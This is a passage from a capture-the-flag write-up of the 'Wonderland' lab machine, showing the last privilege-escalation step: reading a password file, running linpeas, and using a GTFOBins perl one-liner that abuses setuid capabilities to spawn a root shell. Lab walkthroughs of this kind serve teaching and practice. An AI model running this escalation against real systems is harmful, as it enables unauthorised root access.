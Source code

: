 Nice! Now we need to find what we can do to get to the next privilege or root privilege.

In /home/hatter directory, we found the password.txt file:
```
hatter@wonderland:/home/hatter$ ls
password.txt

hatter@wonderland:/home/hatter$ cat password.txt
WhyIsARavenLikeAWritingDesk?
```

From here, I also **run the linpeas script** to make it easy for me to find what can we use to gain privilege as root.

In the linpeas output, we can try to **use the perl capabilities** exploit to get to the root privilege:

![img](capabilities.png)

From [GTFOBins - perl](https://gtfobins.github.io/gtfobins/perl/#capabilities), in Capabilities section, we can get the root shell by running the command:
```
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash -i";'

root@wonderland:~#
```

Now we can read the **root.txt** in alice directory to complete the machine.
```
root@wonderland:~# cat /home/alice/root.txt
```

<details><summary><b>🏳️root.txt</b></summary></details><br>